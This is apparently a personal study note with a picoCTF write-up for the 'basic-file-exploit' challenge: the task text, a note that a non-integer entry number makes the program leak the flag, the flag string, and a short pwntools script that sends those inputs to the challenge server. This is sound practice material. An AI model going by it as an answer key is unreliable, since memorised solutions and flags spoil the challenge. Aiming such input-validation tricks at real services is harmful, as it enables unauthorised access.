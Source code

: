 Links [[00 - Global Index (Start Here!)]] [[01 - PicoGym]] [[Binary Exploitation]]

# [[01 - basic-file-exploit]]
### Contents
***
- [Task Description](01%20-%20basic-file-exploit.md#Task%20Description)
- [Notes](01%20-%20basic-file-exploit.md#Notes)
- [Solve Script](01%20-%20basic-file-exploit.md#Solve%20Script)


### Task Description
---
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!Connect to the program with netcat:`$ nc saturn.picoctf.net 55825`The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/542/program-redacted.c).

### Notes
---
Looking over the C code. The flag is printed if the entry_number errors out.
Getting this to work you have to add some data to the file then enter a non int character and it gives the flag:
```flag
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```

### Solve Script
---
```python
from pwn import *

r = remote('saturn.picoctf.net',55825)
r.recvuntil(b'program')
r.sendline(b'1')
r.recvuntil(b'data:')
r.sendline(b'a')
r.recvuntil(b'data:')
r.sendline(b'1')
r.recvuntil(b'else?')
r.sendline(b'2')
r.recvuntil(b'data:')
r.sendline(b'a')
r.recv()
  
x = r.recv().decode('utf-8')
print(str(x).strip())
r.close()
```


---
Creation date: 08-10-2022
Last modified date: Sunday 8th October 2022
***
